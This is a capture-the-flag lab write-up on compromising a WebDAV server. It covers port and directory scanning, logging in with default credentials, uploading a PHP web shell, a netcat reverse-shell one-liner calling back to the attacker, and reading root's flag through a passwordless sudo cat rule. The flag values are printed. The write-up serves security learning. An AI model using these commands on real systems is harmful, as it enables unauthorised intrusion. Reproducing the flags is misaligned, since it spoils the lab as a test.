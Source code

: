 <h3>1. Task: user.txt</h3>

Lets start with the usual nmap scans!

```
$ nmap 10.10.202.252
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-18 07:38 EDT
Nmap scan report for 10.10.202.252
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.76 seconds
```

A web server on port 80, lets check it out.<br>
Hm, apache ubuntu default page, lets try to fuzz the directories!
```
$ ffuf -u http://10.10.202.252/FUZZ -w ../wordlist/custom.txt -fc 403 -fs 11321
...
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 43ms]
```

Ffuf found a login page<br>
<img src = "login.png">
After a little <a href= "http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html">google searching</a>, Webdavs default credentials are: **wampp:xampp**<br>
Lets try to login with this Password and Username<br>

Logged in successfully! Its a filesystem:

<img src="fs.png"><br>

I can upload files to webdav like this:
```
$ curl http://10.10.202.252/webdav/ --user "wampp:xampp" --upload-file ../shell.php
```
After uploading my shell.php file, it should appear in the filesystem<br>
This is just a simple Remote shell php file, we can write system commands in here and execute them<br>
And now i Will open a netcat session for a better Shell<br>
Start the listener:
```
$ ncat -nlvp 8001
```

And execute the code in the uploaded file:
```
rm /tmp/f; mkfifo /tmp/f; nc <Your_ip> 8001 < /tmp/f | /bin/sh >/tmp/f 2>&1
```
And now i have a more stable Shell
```
$ ncat -nlvp 8001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8001
Ncat: Listening on 0.0.0.0:8001
Ncat: Connection from 10.10.202.252:57600.
```

Now lets find the first flag
```
www-data@ubuntu:/home$ ls
merlin  wampp
www-data@ubuntu:/home$ cd merlin 
www-data@ubuntu:/home/merlin$ ls
user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

<hr>
<h3> 2. Task: root flag </h3>

Running the command "sudo -l" showed that i can run the cat command as root without Password
```
www-data@ubuntu:/tmp$ sudo -l   
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

This Will allow us to read the root flag in /root/root.txt !
```
www-data@ubuntu:/tmp$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```
